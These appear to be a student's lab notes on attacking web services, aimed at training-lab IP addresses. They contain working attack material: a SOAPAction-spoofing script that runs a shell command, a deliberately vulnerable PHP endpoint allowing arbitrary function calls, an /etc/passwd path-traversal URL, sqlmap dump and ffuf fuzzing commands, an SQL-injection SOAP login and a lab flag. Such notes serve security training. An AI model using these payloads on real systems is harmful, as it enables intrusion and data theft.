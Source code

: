 # Web Services Description Language (WSDL)

+ http://10.129.84.113:3002/wsdl (CODE:200|SIZE:0)

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.84.113:3002/wsdl?FUZZ' -fs 0 -mc 20

# SOAPAction Spoofing

Simple Object Access Protocol (SOAP) - is a specification of a message beinng sentbetween two different systems. It is more formalized. It provides trusted and reliable way to send packets. 
Resource: https://blog.postman.com/soap-api-definition/

If a web service considers only an attribute 'SOAPAction' with execution, then it is vulnerable.  

```
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>uname -m</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://10.129.81.112:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
# Command Injection

Explanation: http://10.129.81.112:3003/ping-server.php/system/id 

```
<?php
function ping($host_url_ip, $packets) {
        if (!in_array($packets, array(1, 2, 3, 4))) {
                die('Only 1-4 packets!');
        }
        $cmd = "ping -c" . $packets . " " . escapeshellarg($host_url_ip); 
        $delimiter = "\n" . str_repeat('-', 50) . "\n";
        echo $delimiter . implode($delimiter, array("Command:", $cmd, "Returned:", shell_exec($cmd))); # function enables Command Injection
}

if ($_SERVER['REQUEST_METHOD'] === 'GET') {
        $prt = explode('/', $_SERVER['PATH_INFO']);
        call_user_func_array($prt[1], array_slice($prt, 2));
}
?>
```

# Attacking WordPress 'xmlrpc.php'

# Information Disclosure  (with twist of SQLi)

ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.81.112:3003/?FUZZ=test_value' -fs 19

sqlmap -u 'http://10.129.81.112:3003/?id=1' --dump

# LFI

Explanation: URL: http://10.129.202.133:3000/api/download/..%2f..%2f..%2fetc%2fpasswd

Feel free to use ffuf commands with seclists dictionaries in it. 
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common-api-endpoints-mazen160.txt -u "http://10.129.202.133:3000/api/FUZZ"
```
```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-etc-files-of-all-linux-packages.txt -u "http://10.129.202.133:3000/api/download/FUZZ"
```

# Skill Assessment

```

FLAG{1337_SQL_INJECTION_IS_FUN_:)}

```

```
POST /wsdl HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
SOAPAction: "Login"
Content-Type: text/xml;charset=UTF-8
Host: localhost:80
Content-Length: 404

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:LoginRequest>
         <!--type: string-->
         <tem:username>admin' or 'a'='a</tem:username>
         <!--type: string-->
         <tem:password>sonoras imperio</tem:password>
      </tem:LoginRequest>
   </soapenv:Body>
</soapenv:Envelope>
```
